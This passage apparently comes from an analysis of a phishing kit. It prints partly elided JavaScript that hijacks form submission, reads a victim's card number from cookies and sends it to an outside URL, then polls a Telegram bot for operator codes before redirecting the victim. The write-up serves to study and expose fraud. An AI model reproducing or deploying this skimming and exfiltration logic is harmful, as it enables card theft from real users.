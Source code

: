 Though, two separate functions which retrieve Telegram data and redirect the victim to a third site depending on their credit card number are never called. Should they have been executed, the following code block would run:

```js
function submitFormWaitingRedirect(pathname, url_to_fetch_from, threshold_milliseconds, element_id, element_ids, new_destination) {
    document.addEventListener("submit", function (event) {
      ...
      if (event.target.id === pathname) {
        event.preventDefault();
        fetch(window.location.pathname, {
          'method': "POST",
          'body': new FormData(event.target)
        }).then(() => {
          let current_time_milliseconds = Date.now();
          //Function call every second
          let interval = setInterval(send_data, 1000);
          ...
          let cardNumber = getCookie("cardNumber");
          let randomCode1 = getCookie("randomCode1");
          let randomCode2 = getCookie("randomCode2");
          let botFatherKey = getCookie("botFather");
          fetch(url_to_fetch_from + "?queryJson=" + cardNumber).then(returnedJsonData => returnedJsonData.json()).then(formatted_json => {
            if (formatted_json === '1') {
                fetch(window.location.pathname + "?changeCodeSwitch=" + cardNumber + '&changeValue=0');
              new_location();
              } ...
            }),
            fetch("https://api.telegram.org/bot" + botFatherKey + "/getUpdates").then(returnedBotJson => returnedBotJson.json()).then(formatted_bot_json => {
              formatted_bot_json.result.forEach(piece_of_data => {
                let text = piece_of_data.message.text;
                if (text === randomCode1) {
                  new_location();
                } ...
              });
            });
          }
          function new_location() {
            clearInterval(interval);
            document.getElementById(element_id).style.display = "none";
            window.location.href = new_destination;
          }
          ...
        });
      }
    });
  }
```
